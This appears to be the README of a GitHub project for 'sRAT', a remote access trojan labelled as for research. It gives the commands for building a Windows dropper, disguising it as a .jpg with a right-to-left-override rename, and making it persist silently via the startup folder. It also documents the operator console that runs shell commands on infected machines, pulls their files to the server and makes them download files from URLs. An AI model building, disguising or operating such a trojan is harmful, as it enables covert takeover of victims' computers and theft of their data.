 # sRAT

A small remote access trojan, for research purposes.

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## [windows] build exe

 1. Compile `MainClient.java` as a runnable jar
 2. Compile `srat.au3` into an executable

		aut2exe.exe /In srat.au3 /out ann.exe /icon img.ico

 3. Add the jar file as a resource into the executable, with data-type `RCDATA` and name `JAR`

		reshacker.exe -add ann.exe ann.exe client.jar RCDATA JAR

 4. Rename file with RTLO method

    	python rtlo.py ann.exe

Then we end up with a file `annexe.jpg`, that, when executed, copies `client.jar` into current user AppData folder, and creates a `srat.bat` file in windows startup folder that silently starts the jar at startup.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

**global server commands**

command        | argument | description
-------------- | -------- | -----------
`help`         |          | display all commands
`exit`         |          | close server
`list`         |          | list all connected clients
`select`       | id       | select a client, given its id. opens a connection.
`unselect`     |          | unselect the client. close the connection.
`log`          | [nRows]  | prints out the log ; if an argument is passed, prints the selected amount of lines.
`save_clients` |          | save clients info to an external file, named `clients`.

**seleted client commands**

command | argument              | description
------- | --------------------- | -----------
`info`  |                       | display all information about the selected client 
`exec`  | command               | make the client execute a given shell command
`upld`  | clientFile serverFile | upload a file from the client to the server
`dwnld` | fileUrl localFile     | make the client download a file given by its url

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.
